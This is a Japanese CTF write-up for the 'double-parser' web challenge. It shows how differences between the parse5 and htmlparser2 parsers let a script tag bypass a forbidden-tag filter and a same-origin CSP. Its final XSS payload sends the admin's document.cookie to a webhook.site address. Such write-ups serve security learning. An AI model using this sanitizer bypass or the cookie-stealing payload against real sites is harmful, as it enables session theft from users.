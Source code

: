 # double-parser
ユーザーの入力がHTMLのパーサーライブラリである `parser5` でパースされ、その結果をさらに `htmlparser2` でパースする。また、それぞれのパース処理の直後にパース結果に `script` タグなどの禁止タグが含まれているかどうかがチェックされ、含まれている場合にはエラーとなり、レスポンスとして描画されない。

まず、 `parse5` と `htmlparser2` の挙動の違いとして、 `noembed` などのRaw text Elementsを認識するかの違いがある。これを利用して、`htmlparser2` において、次のように本来はコメントにならない部分をコメント部分として認識させ、禁止タグのチェックをバイパスすることができる。

```
<noembed><!--<a href="</noembed><noembed><script src=x onerror=alert(1)><noembed>">
```

さらに、 `htmlparser2` においては属性値中の `<>` がHTMLエンティティに変換されることを利用して、 `parse5` では有効な終端タグであるが、 `htmlparser2` で変換されてしまうようなタグを埋め込む。これにより、 `parse5` においては `noembed` で囲まれていなかったために有効なコメントとして認識されていたが、この変換によってコメントでは無くなるような部分を作る。

これら2つの挙動を組み合わせて下記のようなタグを作成することで、 `script` タグ部分がレスポンスに返却される。

```
<noembed><a href="</noembed>"><!-- <script><noembed><!--</noembed><script src=/?html=alert()></script> -->
```

また、 `Content-Security-Policy` の制約によって、自身のオリジンからのリソースからスクリプトを読み込む必要がある。

今度は同じエンドポイントを利用して、JavaScriptとして有効なスクリプトとなるレスポンスを得ることを考える。JavaScriptは先頭部分が `<!--` から始まる部分がコメントとして解釈されることを利用して、パラメータに次のような値を指定する。
```
<!----><p>
alert()
<!----></p>
```

下記のようなレスポンスが返ってくることから、JavaScriptとしてパース可能なスクリプトとなることが分かる。
```
<!----><html><head></head><body><p>
alert()
<!----></p></body></html>
```

よって次のようなHTMLを指定したURLを管理者に送信することでフラグを取得できる。

```
<noembed><a href="</noembed>"><!-- <script><noembed><!--</noembed><script src=/?html=%3c!----%3e%3cp%3e%0d%0alocation.href%3d%60https%3a%2f%2fwebhook.site%2fe4adfd3b-8a9c-439f-b930-dd229a6d43a8%3fx%3d%60%2bdocument.cookie%0d%0a%3c!----%3e%3c%2fp%3e></script> -->
```